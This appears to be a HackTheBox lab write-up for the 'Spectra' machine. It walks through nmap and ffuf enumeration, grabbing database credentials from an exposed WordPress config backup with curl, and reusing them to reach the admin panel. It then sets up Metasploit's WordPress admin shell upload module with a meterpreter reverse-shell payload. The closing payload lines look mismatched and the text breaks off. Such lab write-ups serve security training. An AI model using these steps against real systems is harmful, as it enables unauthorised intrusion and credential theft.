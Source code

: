 +++
title = "HackTheBox Write-up&mdash;Spectra"
+++

This machine has IP 10.10.10.229.

Let's enumerate the open ports:
```bash
Starting Nmap 7.91 ( https://nmap.org ) at 2021-04-12 17:30 NZST
Nmap scan report for spectra (10.10.10.229)
Host is up (0.25s latency).
Not shown: 997 closed ports
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.1 (protocol 2.0)
| ssh-hostkey:
|_  4096 52:47:de:5c:37:4f:29:0e:8e:1d:88:6e:f9:23:4d:5a (RSA)
80/tcp   open  http    nginx 1.17.4
|_http-server-header: nginx/1.17.4
|_http-title: Site doesn't have a title (text/html).
3306/tcp open  mysql   MySQL (unauthorized)
|_ssl-cert: ERROR: Script execution failed (use -d to debug)
|_ssl-date: ERROR: Script execution failed (use -d to debug)
|_sslv2: ERROR: Script execution failed (use -d to debug)
|_tls-alpn: ERROR: Script execution failed (use -d to debug)
|_tls-nextprotoneg: ERROR: Script execution failed (use -d to debug)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 62.37 seconds
```

I go to the HTTP port on my browser and get:
```
Issue Tracking
Until IT set up the Jira we can configure and use this for issue tracking.
Software Issue Tracker
Test
```

The `Software Issue Tracker` and `Test` are both hyperlinks.

Clicking on `Software Issue Tracker takes us to `http://spectra.htb/main/index.php`.  This site seems to be hosted on WordPress.  `Test` takes us to `http://spectra.htb/testing/index.php`, but when clicking on this we get `Error establishing a database connection`.  Running `ffuf` on this `/testing` subdomain we find some interesting files:
```
wp-admin                [Status: 301, Size: 169, Words: 5, Lines: 8]
wp-content              [Status: 301, Size: 169, Words: 5, Lines: 8]
wp-includes             [Status: 301, Size: 169, Words: 5, Lines: 8]
```

We can also go directly to the `/testing` subdomain and see a bunch of files available to us (as well as the aforementioned sub-subdomains).  It looks like most of these are unavailable to us, but some of them are not, such as the `wp-config.php.save` file:
```bash
$ curl --silent http://spectra.htb/testing/wp-config.php.save | grep -i 'user' | grep -v '^\/\*'
define( 'DB_USER', 'devtest' );
 * You can change these at any point in time to invalidate all existing cookies. This will force all users to have to log in again.

$ curl --silent http://spectra.htb/testing/wp-config.php.save | grep -i 'pass' | grep -v '^\/\*'
define( 'DB_PASSWORD', 'devteam01' );
```

So we may have a password and username to use...  We explore the `/main` domain, and find `http://spectra.htb/main/wp-login.php`.  I try the password and username here, but it doesn't work, unfortunately.  However, I recall that the first `Hello World` post on `/main` is written by user `administrator`, so I try that with the password we found, and this works!  Now we are taken to `http://spectra.htb/main/wp-admin/`.  I go to the `All Users` link at `/users.php` and we see this one user (`administrator`), whose email is `devteam@megabank.local`.

I go to `msfconsole` and search `wp admin` (because I have access to wordpress as an admin):
```
msf6 > search wp admin

Matching Modules
================

   #   Name                                                      Disclosure Date  Rank       Check  Description
   -   ----                                                      ---------------  ----       -----  -----------
.........
   10  exploit/unix/webapp/wp_admin_shell_upload                 2015-02-21       excellent  Yes    WordPress Admin Shell Upload
.........

Interact with a module by name or index. For example info 23, use 23 or use exploit/unix/webapp/wp_wysija_newsletters_upload

msf6 > use exploit/unix/webapp/wp_admin_shell_upload
[*] No payload configured, defaulting to php/meterpreter/reverse_tcp
msf6 exploit(unix/webapp/wp_admin_shell_upload) > show options

Module options (exploit/unix/webapp/wp_admin_shell_upload):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   PASSWORD                    yes       The WordPress password to authenticate with
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                      yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT      80               yes       The target port (TCP)
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   TARGETURI  /                yes       The base path to the wordpress application
   USERNAME                    yes       The WordPress username to authenticate with
   VHOST                       no        HTTP server virtual host


Payload options (php/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST                   yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   WordPress


msf6 exploit(unix/webapp/wp_admin_shell_upload) > set PASSWORD 'devteam01'
PASSWORD => devteam01
msf6 exploit(unix/webapp/wp_admin_shell_upload) > set USERNAME 'administrator'
USERNAME => administrator
msf6 exploit(unix/webapp/wp_admin_shell_upload) > set RHOSTS '10.10.10.229'
RHOSTS => 10.10.10.229
msf6 exploit(unix/webapp/wp_admin_shell_upload) > set LHOST '10.10.14.239'
LHOST => 10.10.14.239
msf6 exploit(unix/webapp/wp_admin_shell_upload) > set VHOST 'spectra.htb'
VHOST => spectra.htb
msf6 exploit(unix/webapp/wp_admin_shell_upload) > set TARGETURI '/main'
TARGETURI => /main
msf6 exploit(unix/webapp/wp_admin_shell_upload) > set target 0
target => 0
```

This kept failing.  I mean, the exploit kept working, but no reverse shell from it.  However, after much Googling, I found that I needed to manually configure the payload, because it wasn't enough.

set PAYLOAD osx/x64/meterpreter_reverse_tcp
set PAYLOAD osx/x86/isight/bind_tcp
